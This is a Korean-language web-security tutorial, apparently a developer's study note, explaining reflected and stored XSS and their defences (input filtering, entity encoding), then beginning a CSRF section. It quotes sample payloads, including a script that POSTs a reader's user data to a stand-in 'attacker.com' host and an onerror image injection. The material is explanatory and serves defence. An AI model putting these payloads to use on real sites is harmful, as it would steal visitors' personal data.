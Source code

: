 공격자는 웹 사이트에서 취약점을 찾아 낸 후, (네이버 쇼핑은 취약점이 없지만) 사용자에게 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`(이 링크는 `<script>alert('XSS')</script>` 검색 결과와 동일합니다.)와 같이 쿼리에 스크립트가 포함된 링크에 접속을 유도합니다. 사용자가 페이지에 접속하여 스크립트가 실행 된다면 비 지속적 XSS 공격이 성공하게 됩니다.

비 지속적 XSS는 검색 문자열을 그대로 화면에 다시 표시되는 점을 노린 공격이기 때문에 반사(Reflected) XSS라고도 불립니다.

## 지속적(Persistent) 공격 방법
지속적 XSS 공격은 비 지속적 XSS 공격보다 더 치명적인 공격 방법입니다. 게시판을 예로 들면, 공격자가 게시판 글쓰기 통해서 스크립트를 포함한 게시 글을 작성한 후 서버에 저장 합니다. 다른 사용자가 그 게시 글을 읽을 때 게시 글에 포함된 스크립트가 실행되면서 XSS 공격이 성공하게 됩니다. 게시 글에 그 글을 읽는 사용자의 이름과 이메일 등의 개인 정보를 공격자에게 전송하는 스크립트가 포함되어 있다고 하면, 게시 글을 읽는 모든 사람의 개인 정보가 유출되게 됩니다.

예를 들어, 사용자 정보가 window 객체의 user 필드에 저장되어 있다고 하면, 아래와 같이 공격자가 스크립트를 포함한 게시 글을 작성합니다.

```html
안녕하세요.

<script>
  fetch('http://attacker.com/user', {
    method: 'POST',
    body: JSON.stringify(window.user)
  });
</script>

반갑습니다.
```

`<script>` 태그는 화면에 노출되지 않기 때문에 사용자는 자신의 개인 정보가 유출되는지 모른 체 피해를 입게 됩니다. 한 번 스크립트가 실행 되는 게시 글을 올릴 수 있다면, 그 게시 글이 삭제 될 때까지 지속적으로 사용자들에게 피해를 줄 수 있기 때문에 지속적 XSS 공격이라고 이야기 합니다.

## 대응 방법
XSS 공격을 막기 위해서는 페이지에서 공격자가 입력한 스크립트를 실행하지 못하게 해야 합니다. 스크립트를 실행하지 못하게 하려면, 스크립트 입력을 막거나 브라우저가 스크립트를 실행하지 못하게 스크립트 값을 변경해야 합니다. XSS 공격은 보통 프론트엔드 측에서 대응해 줍니다.

### 입력 값 제한
스크립트를 입력하지 못하게 하는 방법으로 XSS 공격을 막을 수 있습니다. 하지만 `<script>` 태그 뿐만 아니라 아래 코드와 같이 이벤트 핸들러를 사용하는 방법으로 스크립트를 실행 할 수 있습니다.

```html
<img src="#" onerror="alert('XSS')">
```

모든 케이스에 대응해서 입력 값을 제한하는 것은 쉽지 않기 때문에 입력 값 치환이 XSS 공격을 방어하는데 더 효과적입니다.

### 입력 값 치환
XSS 공격은 HTML 태그를 사용하기 때문에 HTML 태그에 사용되는 `<`와 `>` 문자열을 인코딩한 `&lt`, `&gt`를 서버에 저장하거나 페이지를 그릴 때 인코딩한 값으로 화면에 그리는 방법입니다. 이렇게 인코딩이 되면 브라우저는 일반 문자열로 인식하여 페이지에 `<script></script>`로 노출되어 스크립트가 실행되지 않습니다.

# XSRF(Crose-Site Request Forgery)
사이트 간 요청 위조(XSRF 또는 CSRF라고 합니다.)는 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)를 특정 웹사이트에 요청하게 하는 공격입니다.

## 타겟이 되는 취약점
사이트 간 요청 위조는 특정 웹 사이트가 사용자의 웹 브라우저를 신뢰하는 상태를 노린 공격입니다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출됩니다.
